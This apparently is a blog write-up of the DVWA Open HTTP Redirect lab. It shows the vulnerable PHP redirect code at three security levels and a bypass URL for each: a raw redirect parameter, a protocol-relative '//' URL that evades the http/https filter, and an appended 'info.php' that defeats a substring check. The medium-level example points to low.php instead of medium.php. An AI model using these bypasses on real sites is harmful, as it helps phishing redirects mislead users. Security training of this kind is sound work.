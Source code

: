 +++
date = '2025-10-20T19:41:09+07:00'
draft = false
title = 'DVWA Open Http Redirect Low/Medium/High Security'
tags = ['DVWA']
description = 'Use Javascript vulnerability to gain access.'

[cover]
  image = '/images/posts/dvwa-cover.png'
  alt = 'DVWA Open HTTP Redirect'
  caption = 'DVWA Open HTTP Redirect'
  relative = false
+++

## Description

**Vulnerability:** Open HTTP Redirect  
**Impact:** Taking advantage of redirects to trick users go to other websites.

---

## LOW Security Level

The source code in `vulnerabilities/open_redirect/source/low.php` is:

```php
if (array_key_exists ("redirect", $_GET) && $_GET['redirect'] != "") {
    header ("location: " . $_GET['redirect']);
    exit;
}

http_response_code (500);
?>
<p>Missing redirect target.</p>
<?php
exit;
```

No checks so we can leverage this if you check the url of Quote 1 and Quote 2 it is: `source/low.php?redirect=info.php?id=1`, so we can use this `redirect` query param to redirect users to whatever page we want:

```
http://localhost/DVWA/vulnerabilities/open_redirect/source/low.php?redirect=https://jameskaois.com
```

## MEDIUM Security Level

The source code now checks `http` and `https`:

```php
if (array_key_exists ("redirect", $_GET) && $_GET['redirect'] != "") {
    if (preg_match ("/http:\/\/|https:\/\//i", $_GET['redirect'])) {
        http_response_code (500);
        ?>
        <p>Absolute URLs not allowed.</p>
        <?php
        exit;
    } else {
        header ("location: " . $_GET['redirect']);
        exit;
    }
}

http_response_code (500);
?>
<p>Missing redirect target.</p>
<?php
exit;
```

We can still force users to redirect without the use of `http` and `https`:

```
/DVWA/vulnerabilities/open_redirect/source/low.php?redirect=//jameskaois.com
```

## HIGH Security Level

The redirect now just allows `info.php`:

```php
if (array_key_exists ("redirect", $_GET) && $_GET['redirect'] != "") {
    if (strpos($_GET['redirect'], "info.php") !== false) {
        header ("location: " . $_GET['redirect']);
        exit;
    } else {
        http_response_code (500);
        ?>
        <p>You can only redirect to the info page.</p>
        <?php
        exit;
    }
}

http_response_code (500);
?>
<p>Missing redirect target.</p>
<?php
exit;
```

This check just need `info.php` exists in `redirect` query param so we can just need to add a trick `info.php`:

```
http://localhost/DVWA/vulnerabilities/open_redirect/source/high.php?redirect=//jameskaois.com?trick=info.php
```

## Resources

-   [OWASP Unvalidated Redirects and Forwards Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html)
-   [WSTG - Testing for Client-side URL Redirect](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/04-Testing_for_Client-side_URL_Redirect)
-   [Mitre - CWE-601: URL Redirection to Untrusted Site ('Open Redirect')](https://cwe.mitre.org/data/definitions/601.html)
